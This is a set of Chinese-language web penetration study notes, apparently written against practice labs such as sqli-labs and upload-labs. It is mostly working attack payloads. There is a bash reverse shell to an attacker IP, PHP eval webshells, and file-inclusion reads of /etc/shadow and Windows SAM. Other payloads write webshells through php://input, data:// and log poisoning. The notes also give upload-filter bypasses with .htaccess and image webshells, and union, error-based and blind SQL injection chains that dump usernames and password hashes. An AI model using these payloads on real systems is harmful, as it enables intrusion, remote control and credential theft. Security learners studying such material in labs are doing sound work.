# 网络安全笔记


## 一、RCE命令执行

关于命令执行关键语句，反弹shell

```bash
bash -c "bash -i >& /dev/tcp/192.168.2.138/4455 0>&1"
						  自己IP		   端口号
```

或者棱角网站

```http
https://forum.ywhack.com/index.php  
```

拿到shell后会发现所有的都变成了转义字符，用不了esc等键位

```bash
echo >> '<?php eval($_POST[x]);?>' 1.php
解决方法：
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


一句话木马

```php
<?php @eval($_POST[x]);?>
    
REQUEST型一句话既可以是post也可以是get

<?php @eval($_REQUEST[x]);?>
```


## nmap

```bash
1. 主机发现（不扫描端口）
nmap -sn 192.168.1.0/24

2. 隐秘扫描（SYN 扫描）
sudo nmap -sS 192.168.1.1
-sS 是 SYN 半开扫描。发送 SYN 包，如果收到 SYN/ACK 则说明端口开放，然后立即发送 RST 断开连接，不完成完整的三次握手。比完整连接扫描更隐蔽。需要 root 权限。

3. TCP 连接扫描
nmap -sT 192.168.1.1
-sT 是 TCP 全连接扫描。使用系统的 connect() 函数完成完整的三次握手。不需要 root 权限，但容易被日志记录。

4. 调整扫描速度
nmap -T0 192.168.1.1    # 超慢（隐蔽）
nmap -T1 192.168.1.1    # 慢
nmap -T3 192.168.1.1    # 默认速度
nmap -T4 192.168.1.1    # 快速（假设网络可靠）
nmap -T5 192.168.1.1    # 极速（可能丢包）
-T 参数控制扫描的激进程度（0-5）。数字越大，速度越快，但也越容易被防火墙/IDS 检测到，且可能影响准确性。
```


## 二、文件包含

出现条件：文件中必须出现include,require,include _once,require _once

利用条件：allow_url_fopen = on(本地文件包含LFI) 和 allopw_url_include=on（远程文件包含RFI）


##### 利用封装协议-file:// ----------主要用来查看关键文件

```http
· /path/to/file.ext: xx.php?file=/etc/passwd
· relative/path/to/file.ext: xx.php?file=../../../../etc/passwd
· file:///path/to/file.ext: xx.php?file=file:///etc/passwd
```

**文件包含-Windows下常见敏感路径**

```php
c:\boot.ini// 查看系统版本

c:\windows\system32\inetsrv\MetaBase.xml// IIS配置文件

c:\windows\repair\sam// 存储Windows系统初次安装的密码

c:\ProgramFiles\mysql\my.ini// MySQL配置

c:\ProgramFiles\mysql\data\mysql\user.MYD// MySQL root密码

c:\windows\php.ini// php配置信息


```

**文件包含-Linux/Unix下常见敏感路径**

```php
/etc/passwd// 账户信息

/etc/shadow// 账户密码文件

/usr/local/app/apache2/conf/httpd.conf// Apache2默认配置文件

/usr/local/app/apache2/conf/extra/httpd-vhost.conf// 虚拟网站配置

/usr/local/app/php5/lib/php.ini// PHP相关配置

/etc/httpd/conf/httpd.conf// Apache配置文件

/etc/my.conf// mysql 配置文件
```


#### 1、php://filter文件包含


‘php://filter` 是 PHP 中的一种**伪协议**，用于在读取或[写入文件](https://so.csdn.net/so/search?q=写入文件&spm=1001.2101.3001.7020)时对数据流进行过滤和转换。它允许你在不修改原始文件的情况下，对文件内容执行各种编码、解码或转换操作，常用于安全审计、数据处理或漏洞利用场景。

使用前提：开启了allow_url_fopen和allow_url_include

```php
语法： php://filter/[读|写过滤器列表]/resource=目标文件

例子： php://filter/read=string.rot13/resource=data://text/plain,abcdefg
```

root13是常用的字符串过滤器，作用是右移13位也就是rot13编码，在PHP不开启short_open_tag时，php不认识这个字符串，当然也就不会执行了

payload如下

```php
filename=php://filter/write=string.rot13/resource=kirito.php&txt=<?cuc riny($_CBFG['pzq']);?>
```

#### php://filter一共有四种过滤

1、字符串过滤

字符串过滤器以string开头，如：string.rot13、string.toupper等

```php+HTML
#string.rot13表示对数据进行rot13加密
<?php
echo file_get_contents("php://filter/read=string.rot13/resource=data://text/plain,zxcvb");
输出结果为  mkpio
```

2、转换过滤器

例如：convert.base64-encode和convert.base64-decode、convert.quoted-printable-encode 和 convert.quoted-printable-decode

```php+HTML
#以下代码是convert.base64-encode和convert.base64-decode的使用方法（这两个在CTF web题目中经常出现）
应用方法一般为：

url/?file=php://filter/read=convert.base64-encode/resource=<数据源>

<?php
$fp = fopen('php://output', 'w');
stream_filter_append($fp, 'convert.base64-encode');
fwrite($fp, "This is a test.\n");
fclose($fp);
/* 输出： VGhpcyBpcyBhIHRlc3QuCg==  */

$param = array('line-length' => 8, 'line-break-chars' => "\r\n");
$fp = fopen('php://output', 'w');
stream_filter_append($fp, 'convert.base64-encode', STREAM_FILTER_WRITE, $param);
fwrite($fp, "This is a test.\n");
fclose($fp);
/* 输出： VGhpcyBp
      ： cyBhIHRl
      ： c3QuCg==  */

$fp = fopen('php://output', 'w');
stream_filter_append($fp, 'convert.base64-decode');
fwrite($fp, "VGhpcyBpcyBhIHRlc3QuCg==");
fclose($fp);
/* 输出： This is a test.  */
?>
```

读出的结果会变成base64编码，需要解码


3、压缩过滤器


4、加密过滤器

本特性已自 PHP 7.1.0 起废弃。强烈建议不要使用本特性。）


#### 2、php://input伪协议---代码执行

现在url栏中输入input伪协议

```php
http://192.168.164.131/include/file01.php?file=php://input 
```



```php+HTML
<?php fwrite(fopen('tx.php','w'),'<?php @eval($_POST["cc"]);?>');?>

<?php fputs(fopen('shell.php','w'),"<?php @eval(\$_POST[cmd]);?>");?>
```



#### 3、php://data伪协议

```php
 <?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);`
}else{
    highlight_file(__FILE__);
}
//过滤了php的出现
```

绕过方法

```php
file=data://text/plain;base64,<base64的值>

file=data://text/plain;base64,PD9waHAgZndyaXRlKGZvcGVuKCJ0eC5waHAiLCJ3IiksJzw/cGhwIGV2YWwoXCRfUE9TVFsiY2MiXSk7Pz4nKTs/Pg==        ===> <?php system('cat flag.php');

后面解码的值
<?php fwrite(fopen('tx.php','w'),'<?php @eval(\$_POST["cc"]);?>');?>
    还是一样的input写入方法
```


#### 5、日志文件包含

要求较多，要求拥有日志文件的写入权限

```php

<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}

//过滤了php，data，：三个伪协议常用字，伪协议基本难以使用

```

先抓包

```php
抓完包之后在User-Agent写入一句话木马
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0 <?php @eval($_POST[x]);?>

```

不同中间件日志位置不同，这里存放在了/var/log/apache2/access.log

查看一下日志，发现已经写入

```php
192.168.164.1 - - [09/Dec/2025:14:14:21 +0800] "GET /include/file02.php HTTP/1.1" 200 375 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0 <?php @eval($_POST[x]);?>"


```

之后保证文件本地包含，然后用蚁剑链接


## 三 、文件上传漏洞

前端的过滤直接删掉过滤代码，后端看情况

#### 难度最易，前端过滤

```php
<form enctype="multipart/form-data" method="post" onsubmit="return checkFile()">
                <p>请选择要上传的图片：</p><p>
                <input class="input_file" type="file" name="upload_file">
                <input class="button" type="submit" name="submit" value="上传">
            </p></form>
    
    //直接删掉 onsubmit="return checkFile()" 就行了
```

#### 难度简单，需要抓包后更改content-type,并且过滤了文件名

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```

在记号位置改成 image/jpeg



```
同时可能设置了黑名单过滤，要改扩展名如php3，PHP，Php，phtml

其次是像%00截断（版本必须小于5.3.4，太低了实战不考虑）和多重扩展名

最后是gif89a
gif89a是一个gif文件的文件头，在改完content-type为image/jpeg后，在下面输入gif89a即可绕过

```


#### 前置：.htaccess文件  或者"分布式配置文件"

```php
全称是Hypertext Access(超文本入口)，是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过.htaccess文件，可以实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能，IIS平台上不存在该文件，启用.htaccess需要修改httpd.conf，该文件默认开启，启用和关闭在httpd.conf文件中配置。启用AllowOverride all，并可以用AllowOverride限制特定命令的使用。
```

可利用点

```
.htaccess可以帮我们实现包括：文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定IP地址的用户、只允许特定IP地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能。
```

.htaccess与http.conf

```php
http.conf可以覆盖htaccess，即权限在其之上。如果http设置为AllowOverride None，那么无论.htaccess如何更改都无法影响网站
避免方法：
改AllowOverride None  为AllowOverride All，即先更改配置文件
```

更改配置文件方法

```
位置：D:\phpstudy_pro\Extensions\Apache2.4.39\conf
找到AllowOverride None，改AllowOverride None  为AllowOverride All
注：一共有三个要更改
```

利用方法

```php
1、创建以为名为.htaccess.txt的文本文件
2、内容为 ：AddType application/x-httpd-php .jpg   --------这句话的意思是吧jpg文件当作php文件执行
3、上传.htaccess的文本文件
```



#### 难度中等，需要制作图片码和.htaccess文件

在windows的cmd中执行

```bash
copy 1.jpg/b+2.php/a 2.jpg

1.jpg是你要用的图片名

2.php是你要用的一句话木马名

2.jpg是生成的图片马名称
```



#### 文件包含和文件上传的联系

```php
因为上传的图片码无法直接被当作代码执行，所以文件包含就成为可执行项，即文件包含会将可执行的php语句直接执行，一句话木马就可以被蚁剑连接
```

```php
此处的文件包含文件为include.php 
```



重要！！！！如果包含不成功很有可能是图片的问题，建议重新用其他图片做

#### 图片码之二次渲染解决

工具：010_editor

```
1、下载好已经屏蔽后的图片，将屏蔽后的图片和刚刚做完图片码的图片放入010_editor中
2、在工具下的比较文件中把两张图片选中
3、比较相似位数多的空位插入一句话木马(不能破坏文件头，尽量在后面找)
```


## 四、sql注入

#### sqli的介绍与原理

```
SQLI，sql injection，我们称之为 sql 注入。何为sql，英文：StructuredQueryLanguage，叫做结构化查询语言。常见的结构化数据库有MySQL，MSSQL,Oracle以及Postgresql。Sql语言就是我们在管理数据库时用到的一种。在我们的应用系统使用sql语句进行管理应用数据库时，往往采用拼接的方式形成一条完整的数据库语言，而危险的是，在拼接sql语句的候，我们可以改变sql语句。从而让数据执行我们想要执行的语句，这就是我们常说的sql注入。
```

#### sql语句基础

```sql
insert into   增	 
delete 		 删除
update		 改
select 		 查
```

数据库流程

```
用户看到使用的web的前端，通过表单文本框等等输入参数，提交给脚本文件，最后连接数据库发送sql语句，经过过滤查询后返回结果
```

sqlilab靶场lesson1

```mysql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

limit 0,1具体含义是‌从查询结果的第0条记录（即第一条记录）开始，返回1条记录‌

```

判断sql注入是否存在

```mysql
源语句：
SELECT * FROM users WHERE id='$id' LIMIT 0
改成1'
SELECT * FROM users WHERE id='1''  LIMIT 0
在此时出现报错
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1 
 发现有这个的时候，可以确认有sql注入漏洞
 
```

发现漏洞继续注入

```mysql
SELECT * FROM users WHERE id='1'and 1=2 # LIMIT 0
SELECT * FROM users WHERE id='1'and 1=2 --+ LIMIT 0
#号注释了后面的内容，同时也可以使用--+来代替#注释


```


#### 1、回显注入

##### 联合查询

确认当前数据库列数

```mysql
使用 order by 完成

SELECT * FROM users WHERE id='1' order by 5 --+ LIMIT 0
SELECT * FROM users WHERE id='1' order by 5 # LIMIT 0
SELECT * FROM users WHERE id='1' order by 3 --+ LIMIT 0

```

union select

```mysql
union select会返回两个查询，但只会回显一个，如果想要回显的是自己注入的查询，就要保证系统需输入的查询是错误的（id=-1），并且要求 两个查询列数必须一样,同时判断查询回显的列， 

SELECT * FROM users WHERE id='-1' union select 1,2,3  --+ LIMIT 0


```

这时候可以判断回显的二、三列



###### 查询当前数据库名

```mysql
用database()查询当前数据库名
SELECT * FROM users WHERE id='-1' union select 1,database(),3  --+ LIMIT 0
```

###### 查询对应的表 information_schema

```mysql
information_schema数据库存放了当前数据库中的所有库名、表名、列名。
其中
schema表存放了所有库名，schema_name中
tables表存放了所有表名，table_schema库名，table_name表名
columns表存放了所有列名，table_schema库名，table_name表名,column_name列名
查询库中表

SELECT * FROM users WHERE id='-1' union select 1,select table_name from information_schema.tables where table_schema='security',3  --+ LIMIT 0
回显大于1行不显示
加入group_concat
SELECT * FROM users WHERE id='-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3  --+ LIMIT 0

```



```mysql
 查询列名
SELECT * FROM users WHERE id='-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users') ,3  --+ LIMIT 0

SELECT * FROM users WHERE id='-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='referers') ,3  --+ LIMIT 0
```

###### 查数据

```mysql
SELECT * FROM users WHERE id='-1' union select 1,(select group_concat(username,0x7e,password) from security.users) ,3  --+ LIMIT 0
0x7e用来隔开用户名和密码 
```



###### 跨库查询

```mysql
1、查询所有数据库名
SELECT * FROM users WHERE id='-1' union select 1,(select group_concat(schema_name) from information_schema.schemata)  ,3  --+ LIMIT 0 , 1
2、表名
SELECT * FROM users WHERE id='-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3  --+ LIMIT 0
```

##### 模糊搜索的查询

```mysql
'%xxx%' #   
%xxx%' #
空格被过滤 用/**/

Anonymous Hackers TTP%' or order by 3 #

Anonymous Hackers TTP%' and length(database())=8 #

Anonymous Hackers TTP%' order by 3 #   确认三列


Anonymous Hackers TTP%' union select 1,2,3 #


Anonymous Hackers TTP%' union select 1,database(),3 #  查看数据库名  是webapphacking

Anonymous Hackers TTP%' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='webapphacking'),3 #     爆出表名 books,users

Anonymous Hackers TTP%' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='webapphacking' and table_name='users') ,3 #    爆出id,user,pasword,name,address这些属于users的字段名


Anonymous Hackers TTP%' union select 1,(select group_concat(user,0x7e,pasword) from webapphacking.users) ,3 #
,0x7e,name,0x7e,address

user1~5d41402abc4b2a76b9719d911017c592,user2~6269c4f71a55b24bad0f0267d9be5508,user3~0f359740bd1cda994f8b55330c86d845,test~05a671c66aefea124cc08b76ea6d30bb,superadmin~2386acb2cf356944177746fc92523983,test1~05a671c66aefea124cc08b76ea6d30bb,user1' #~25f9e794323b453885f5181f1b624d0b,user1 '#~25f9e794323b453885f5181f1b624d0b,aaaaa~e10adc3949ba59abbe56e057f20f883e
```


##### post型

```mysql
SELECT username, password FROM users WHERE username='uname′andpassword=′decodedPassword' LIMIT 0,1

SELECT username, password FROM users WHERE username= '1'  or 1=1 --+ ′andpassword=′decodedPassword' LIMIT 0,
```

万能密码

```
1'  or 1=1 #
1'  or 1=1 --+
```

爆出数据库名

```mysql
一样要先判断列数
SELECT username, password FROM users WHERE username= '-1' union select 1,database()  # ′andpassword=′decodedPassword' LIMIT 0,
```


##### 报错注入 

如果页面存在注入，但是联合查询结果不会在页面显示，而sql语句报错回显，那么可以用报错注入

```mysql
updatexml() extractvalue()
```

xml文档中某个指定路径下的资源，并修改，如果查询的路径格式错误，函数会报错

```mysql
admin" or updatexml(1, concat(0x7e, (database())), 0) #


 完全sql 语句
SELECT username, password FROM users WHERE username="admin" or updatexml(1,concat(0x7e,(database())),0)#" and password=$passwd LIMIT 0,1

查询表名（其他的从上面粘贴）

admin" or updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='security')), 0) # 


用于inset类型，前闭合后闭合，中间构造的方法
''or updatexml(1,contat(0x7e,(select database()),0)) or ''

'or updatexml(1,concat(0x7e,(select group concat(table name)from information schema.tables where table schema="xhcms"limit0,1),0x7e),1) or'

'r updatexml(1,concat(@x7e,(select group_concat(table_name) from information_schema.tables where table schema="xhcms"limit 1,1),0x7e),1)or'

```


### 2、无回显注入（盲注）

当常见的sql语句注入了，但是没有回显，在无回显的情况下注入，就是盲注

常见的sql语句

```mysql
'admin' xxx #"
"admin" xxx #"
('admin') xxx #')
("admin") xxx #")
```

需要输入两种相反的结果判断是否存在用户存在

```mysql
x' or 1=1# 页面显示登录成功
x' or 1=2# 页面显示登录失败
也就是说没有x的用户  
```

判断数据库的长度与数据库名

```mysql
用户admin1并不存在，那么就会执行后面的语句，判断数据库名字长短是否为8
admin1' and length(database())=8 --+


admin1' and ascii(substr(database()),1,1)=97 --+


```

用暴力破解出数据库名

```
用户名输入
admin1' and ascii(substr(database(),1,1))=97 #
构造payload 1 和 97（选择数值和选择不同的数值范围）
```

